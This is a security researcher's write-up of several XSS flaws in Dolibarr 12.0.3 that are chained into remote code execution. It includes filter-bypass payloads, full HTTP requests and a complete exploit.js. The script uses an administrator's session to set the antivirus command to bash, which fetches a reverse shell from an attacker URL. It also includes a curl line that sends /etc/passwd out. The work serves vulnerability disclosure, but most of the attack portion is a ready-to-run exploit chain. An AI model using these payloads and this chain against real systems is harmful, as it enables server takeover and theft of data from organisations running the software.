
# C10001: Dolibarr 12.0.3, Multiple XSS to RCE

[Dolibarr](https://www.dolibarr.org/) is an open source enterprise resource planning and customer relationship management software (ERP/CRM) for companies of all sizes, from SME to large group but also for independents, auto-entrepreneurs or associations as it is quoted by [Wikipédia](https://en.wikipedia.org/wiki/Dolibarr).

To decompress during the development of my static analysis tool, I set myself the goal to audit the latest version of the Dolibarr application (Dolibarr v12.0.3).

As usual, the first step is to retrieve the sources and install the application.

First go to their download page (https://www.dolibarr.org/downloads.php), which offers you to either get the code on [SourceForge](https://sourceforge.net/):
- https://sourceforge.net/projects/dolibarr/files/Dolibarr%20ERP-CRM/

Or to download it from [GitHub](https://github.com/):
- https://github.com/Dolibarr/dolibarr/

The two identified vulnerabilities are:
 - Reflected XSS in a GET parameter (triggered by an administrator)
 - Stored XSS in a POST parameter (triggered by any user who can modify the template of an email which is by default all users, even those who do not have privileges)

After going through the actions that can be carried out by an administrator, a particularly dangerous action was identified. Using one of the two XSS discovered in order to have this action executed by an administrator makes it possible for an attacker to obtain a remote code execution. 

## Reflect XSS in GET parameter `sall`

The first identified vulnerability is an Reflected XSS in the GET parameter `sall` from the route <span style="color:red">\<ROOT\>/adherents/list.php</span>.
To identify the entry point we use the following payload `i<3"'ivoire`.





Once the vulnerability is detected, we just have to create a valid payload.

Payload: `<input autofocus onfocus='alert(1337)' <--!`
> [UPDATE]: New payload: `<input autofocus on<--! -->focus=alert(1339) <--!`





### Why ?

The code responsible for the vulnerability is the following:

File: <span style="color:red">\<ROOT\>/adherents/list.php</span>
```php

...

$sall = trim((GETPOST('search_all', 'alphanohtml') != '') ?GETPOST('search_all', 'alphanohtml') : GETPOST('sall', 'alphanohtml'));

...

if ($sall)
{
    foreach ($fieldstosearchall as $key => $val) $fieldstosearchall[$key] = $langs->trans($val);
    print '<div class="divsearchfieldfilter">'.$langs->trans("FilterOnInto", $sall).join(', ', $fieldstosearchall).'</div>';
}

...

```

In order to make sure that the vulnerability has been correctly identified, we will modify the code to:

File: <span style="color:red">\<ROOT\>/adherents/list.php</span>
```php

...

$sall = trim((GETPOST('search_all', 'alphanohtml') != '') ?GETPOST('search_all', 'alphanohtml') : GETPOST('sall', 'alphanohtml'));

...

if ($sall)
{
    foreach ($fieldstosearchall as $key => $val) $fieldstosearchall[$key] = $langs->trans($val);
    print '<div class="divsearchfieldfilter">[XSS]'.$langs->trans("FilterOnInto", $sall).join(', ', $fieldstosearchall).'</div>';
}

...

```

Which gives us the following result:



So we have a first vulnerability. The scenario to exploit this one consists in sending via email (or messages, forums, etc.) a malicious link to an administrator.

## Stored XSS in POST parameter `joinfiles`

The first vulnerability has been identified, but the probability of an administrator visiting a malicious link may be low. Luckily for us, we were able to identify a second XSS but stored this time. Moreover, this vulnerability can be exploited by any authenticated user.



Which corresponds to the following request:

Request:
```
POST /projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?id=25 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?sortfield=type_template,%20lang,%20position,%20label&sortorder=ASC&rowid=51&code=&id=25&action=confirm_delete&confirm=yes&token=%242y%2410%24SBPSdUB2DmrsaHy6oajjXuiE0CYDKRWbyWtLEFZgBjagTaY9ptzAy
Cookie: DOLSESSID_3cf7d57f6a25259d0a0160385799627b=b8b460845389eb4c954a36fbca897a1e; PHPSESSID=59c081265d533a90dc35f69b483be65c; DOLINSTALLNOPING_7d47c028b26e0f9d1c2e2d351e07bf80=1
Upgrade-Insecure-Requests: 1

token=%242y%2410%243rnoPkv3dvlsanIDN%2FewouUiO3oiu1XXiR2vJAsQ4Jy%2FTmaPf1w4G&from=&id=25&label=0&langcode=&type_template=all&fk_user=2&private=0&position=0&topic=test0&actionadd=Ajouter&joinfiles=test1+i%3C3%22%27ivoire&content=test2
```






The POST parameter `joinfiles` is therefore vulnerable. As for the first vulnerability the identification is trivial, however the exploitation is less so, because a filtering mechanism seems to be in place.

The method that has been used to work around this mechanism is to use HTML [comments](https://www.w3schools.com/tags/tag_comment.asp) (example: `<!--This is a comment. Comments are not displayed in the browser-->`. ).

Payload: `test1">error=alert(1338) src="x`

Request:
```
POST /projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?id=25 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 276
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?sortfield=type_template,%20lang,%20position,%20label&sortorder=ASC&rowid=52&code=&id=25&action=confirm_delete&confirm=yes&token=%242y%2410%246%2FyHe0GZi96PqAYe03%2F07u.a3FeKJv%2FHtxt7QZKFL2TLikMUp0qcS
Cookie: DOLSESSID_3cf7d57f6a25259d0a0160385799627b=b8b460845389eb4c954a36fbca897a1e; PHPSESSID=59c081265d533a90dc35f69b483be65c; DOLINSTALLNOPING_7d47c028b26e0f9d1c2e2d351e07bf80=1
Upgrade-Insecure-Requests: 1

token=%242y%2410%24juTUR6fAlxNNtN%2F69bBpFOq8042fkjNx7iGW26ZQsjBn5eO55uamq&from=&id=25&label=0&langcode=&type_template=all&fk_user=2&private=0&position=0&topic=test0&actionadd=Ajouter&joinfiles=test1%22%3E%3Cimg+on%3C--%21+--%3Eerror%3Dalert%281338%29+src%3D%22x&content=test2
```








### Why ?

The code snippet responsible for the vulnerability is presented below:

File: <span style="color:red">\<ROOT\>/admin/mails_templates.php</span>
```php

...

$showfield = 1;
$align = "left";
$valuetoshow = $obj->{$tmpfieldlist};

$class = 'tddict';
// Show value for field
if ($showfield) {

...

    if ($tmpfieldlist == 'joinfiles')
    {
        print '<strong>'.$form->textwithpicto($langs->trans("FilesAttachedToEmail"), $tabhelp[$id][$tmpfieldlist], 1, 'help', '', 0, 2, $tmpfieldlist).'</strong> ';
        print '<input type="text" class="flat maxwidth50" name="'.$tmpfieldlist.'-'.$rowid.'" value="'.(!empty($obj->{$tmpfieldlist}) ? $obj->{$tmpfieldlist} : '').'">';
    }

...

}

...

```

As you can see, no sanitization is performed during the rendering of `$obj->{$tmpfieldlist}`. 

If we modify the code like this:

File: <span style="color:red">\<ROOT\>/admin/mails_templates.php</span>
```php

...

$showfield = 1;
$align = "left";
$valuetoshow = $obj->{$tmpfieldlist};

$class = 'tddict';
// Show value for field
if ($showfield) {

...

    if ($tmpfieldlist == 'joinfiles')
    {
        print '<strong>'.$form->textwithpicto($langs->trans("FilesAttachedToEmail"), $tabhelp[$id][$tmpfieldlist], 1, 'help', '', 0, 2, $tmpfieldlist).'</strong> ';
        print '[XSS]<input type="text" class="flat maxwidth50" name="'.$tmpfieldlist.'-'.$rowid.'" value="'.(!empty($obj->{$tmpfieldlist}) ? $obj->{$tmpfieldlist} : '').'">';
    }

...

}

...

```

We get the following results:



The vulnerabilities necessary for the exploitation having been presented we will now see how an administration feature can be used to get a code execution.

## Getting RCE as an administrator

Dolibarr offers to administrators to scan all files uploaded to the server with an antivirus software, but the path and the parameters of the antivirus must be defined by an administrator. The problem is that if the administrator defines a program other than an antivirus that works as well. Moreover the parameters are not correctly cleaned and it is possible to inject commands as we can see below.

### Using the feature to our advantage

Let's define `curl` as our antivirus and set a URL that we control as parameter:



All we have to do is upload a file to trigger the command.


### Arbitrary File Read

We can now get an arbitrary file read by defining the binary as `curl` and the parameters as `"<URL_UNDER_OUR_CONTROL>" -F "file=@/etc/passwd"`.



Or getting a remote code execution as follow.

### Remote Code Execution

Set the binary as `bash` and the parameters as `-c "$(curl <URL_UNDER_OUR_CONTROL>/poc.txt)"` where <span style="color:red">poc.txt</span> contains the following content:

File: <span style="color:red">poc.txt</span>
```bash
bash -i >& /dev/tcp/<NETCAT_LISTENER_IP>/<NETCAT_LISTENER_PORT> 0>&1
```



## Combine an XSS and this feature

### Change binary and parameters

First change the binary and the parameters:

```js
function changeBinary() {
    var xhr1 = new XMLHttpRequest();
    xhr1.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr1.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr1.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
    xhr1.withCredentials = true;
    var body1 = "token=%242y%2410%24oi7TOu6vwFc1h1h87wNyNuT%2Fd0lH3cXUX5NpvzQ%2FwPZyGpKOrIW4G&action=updateform&MAIN_UPLOAD_DOC=2048&MAIN_UMASK=0664&MAIN_ANTIVIRUS_COMMAND=bash&MAIN_ANTIVIRUS_PARAM=-c+%22%24%28curl+http%3A%2F%2F<URL_UNDER_OUR_CONTROL>%3A<RELATED_PORT>%2Fpoc.txt%29%22&button=Modifier";
    var aBody1 = new Uint8Array(body1.length);
    for (var i = 0; i < aBody1.length; i++)
        aBody1[i] = body1.charCodeAt(i); 
    xhr1.send(new Blob([aBody1]));
}
```

### Upload junk file

Then upload a junk file to trigger the binary:

```js
function triggerBinary() {
    var xhr2 = new XMLHttpRequest();
    xhr2.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr2.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr2.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr2.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------38749762618930241634203718874");
    xhr2.withCredentials = true;
    var body2 = "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"token\"\r\n" + 
        "\r\n" + 
        "$2y$10$pnXTTqQ7R1h2epVIAd3yce83Jh6n1eV.ul59VligSe0MJ0W/grGPe\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_dir\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_id\"\r\n" + 
        "\r\n" + 
        "0\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortfield\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortorder\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"max_file_size\"\r\n" + 
        "\r\n" + 
        "2097152\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"userfile[]\"; filename=\"junk.txt\"\r\n" + 
        "Content-Type: text/plain\r\n" + 
        "\r\n" + 
        "junk\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sendit\"\r\n" + 
        "\r\n" + 
        "Envoyer fichier\r\n" + 
        "-----------------------------38749762618930241634203718874--\r\n";
    var aBody2 = new Uint8Array(body2.length);
    for (var i = 0; i < aBody2.length; i++)
        aBody2[i] = body2.charCodeAt(i); 
    xhr2.send(new Blob([aBody2]));
}
```

### Final exploit

File: <span style="color:red">exploit.js</span>
```js
function changeBinary() {
    var xhr1 = new XMLHttpRequest();
    xhr1.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr1.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr1.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
    xhr1.withCredentials = true;
    var body1 = "token=%242y%2410%24oi7TOu6vwFc1h1h87wNyNuT%2Fd0lH3cXUX5NpvzQ%2FwPZyGpKOrIW4G&action=updateform&MAIN_UPLOAD_DOC=2048&MAIN_UMASK=0664&MAIN_ANTIVIRUS_COMMAND=bash&MAIN_ANTIVIRUS_PARAM=-c+%22%24%28curl+http%3A%2F%2F<URL_UNDER_OUR_CONTROL>%3A<RELATED_PORT>%2Fpoc.txt%29%22&button=Modifier";
    var aBody1 = new Uint8Array(body1.length);
    for (var i = 0; i < aBody1.length; i++)
        aBody1[i] = body1.charCodeAt(i); 
    xhr1.send(new Blob([aBody1]));
}

function triggerBinary() {
    var xhr2 = new XMLHttpRequest();
    xhr2.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr2.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr2.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr2.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------38749762618930241634203718874");
    xhr2.withCredentials = true;
    var body2 = "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"token\"\r\n" + 
        "\r\n" + 
        "$2y$10$pnXTTqQ7R1h2epVIAd3yce83Jh6n1eV.ul59VligSe0MJ0W/grGPe\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_dir\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_id\"\r\n" + 
        "\r\n" + 
        "0\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortfield\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortorder\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"max_file_size\"\r\n" + 
        "\r\n" + 
        "2097152\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"userfile[]\"; filename=\"junk.txt\"\r\n" + 
        "Content-Type: text/plain\r\n" + 
        "\r\n" + 
        "junk\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sendit\"\r\n" + 
        "\r\n" + 
        "Envoyer fichier\r\n" + 
        "-----------------------------38749762618930241634203718874--\r\n";
    var aBody2 = new Uint8Array(body2.length);
    for (var i = 0; i < aBody2.length; i++)
        aBody2[i] = body2.charCodeAt(i); 
    xhr2.send(new Blob([aBody2]));
}

changeBinary();
setTimeout(triggerBinary, 3000);
```

File: <span style="color:red">poc.txt</span>
```bash
bash -i >& /dev/tcp/<NETCAT_LISTENER_IP>/<NETCAT_LISTENER_PORT> 0>&1<>
```


- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/Dolibarr/xss_to_rce_12.0.3.js)

<br>
<br>

## UPDATE: Stored XSS in POST parameter `address`

Identification of a new parameter allowing the exploitation of a Sotred XSS for path <span style="color:red">\<ROOT\>/user/card.php</span>.

By modifying his address a user can inject code in order to trigger an XSS:





Request:
```
POST /projects/dolibar/12.0.3/htdocs/user/card.php?id=2 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------355545692839036351211841843098
Content-Length: 4812
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibar/12.0.3/htdocs/user/card.php?id=2&action=edit
Cookie: DOLSESSID_3cf7d57f6a25259d0a0160385799627b=93eb46d4cfa96a729dfdcf73dc3a4635
Upgrade-Insecure-Requests: 1

-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="token"

$2y$10$ihSdSLGiEEreQxKkKfCECuwj/9A4wSfQPDgSJVos5hRJjOVhjy/ay
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="action"

update
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="entity"

1
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="lastname"

test0
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="firstname"

test1
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="login"

test
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="admin"

0
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="superadmin"

0
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="gender"

man
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="employee"

1
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="fk_user"

-1
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="fk_user_expense_validator"

-1
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="fk_user_holiday_validator"

-1
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="address"

test2">error=alert(1338) src="x
-----------------------------355545692839036351211841843098
Content-Disposition: form-data; name="zipcode"


-----------------------------35554569283903635121184184309

...

```

Which will be triggered by any user:



Including the administrator:



## UPDATE: Reflected XSS in GET parameter `file`

Identification of a new parameter allowing the exploitation of a Reflected XSS for path <span style="color:red">\<ROOT\>/document.php</span>.

The payload used as follows bypasses the safety mechanism in place:
```
<<poc>img on<--! -->error=alert('XSS') src='x<>'>
```

This one must be injected in the file parameter as you can see below:
```
<ROOT>/document.php?modulepart=medias&attachment=1&file=<<poc>img on<--! -->error=alert('XSS') src='x<>'>
```

Example: `http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/document.php?modulepart=medias&attachment=1&file=%3C%3Cpoc%3Eimg%20on%3C--!%20--%3Eerror=alert(%27XSS%27)%20src=%27x%3C%3E%27%3E`

Which gives the following result




